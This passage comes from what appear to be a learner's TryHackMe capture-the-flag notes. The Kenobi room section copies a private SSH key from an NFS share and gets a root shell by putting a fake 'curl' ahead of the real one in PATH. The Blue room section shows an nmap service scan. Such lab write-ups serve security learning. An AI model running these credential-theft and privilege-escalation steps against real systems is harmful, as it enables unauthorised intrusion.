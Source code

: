 ##### Retrieving key
```bash
mkdir /mnt/kenobi
mount <ip>:/var /mnt/kenobi
cp /mnt/kenobi/tmp/id_rsa .
```

##### Using Key
```bash
chmod 600 id_rsa
ssh -i ./id_rsa kenobi@<ip>
```
and we are in!

##### Privilege Esculation

##### Searching for root suid binaries
```bash
find / -perm -u=s -type f 2>/dev/null
```
This find typical binaries and files like ping, sudo etc and `/usr/bin/menu`

#### Exploiting this

Running `/usr/bin/menu` brings up 3 options that just look like preconfigured system commands.
```
strings /usr/bin/menu

curl -I localhost
uname -r
ifconfig
```
These are the commands that are being used and would be run as root, they don't specify a full path so we can exploit these using the PATH variable to redirect the issued command to our own binary that will be run as root.

```
cd /tmp
echo /bin/sh > curl
chmod 777 curl
PATH=/tmp:$PATH; /usr/bin/menu
```
Run the curl command via the menu binary and `#`, root shell!

#### Blue

[TryHackMe ~ Blue](https://tryhackme.com/room/blue)

Notes on TryHackMe's room, blue. A beginner Windows challenge, covers basic recon, research, exploitation via metaspoilt & password cracking.   

##### Nmap Recon
Use nmap to scan ports and try to find details about services and versions on those ports 
```bash
nmap -sV -sC <target> -oX nmap-service-scan.xml

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 18:07 BST
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 44.44% done; ETC: 18:09 (0:00:40 remaining)
Nmap scan report for 10.10.123.129
Host is up (0.025s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
```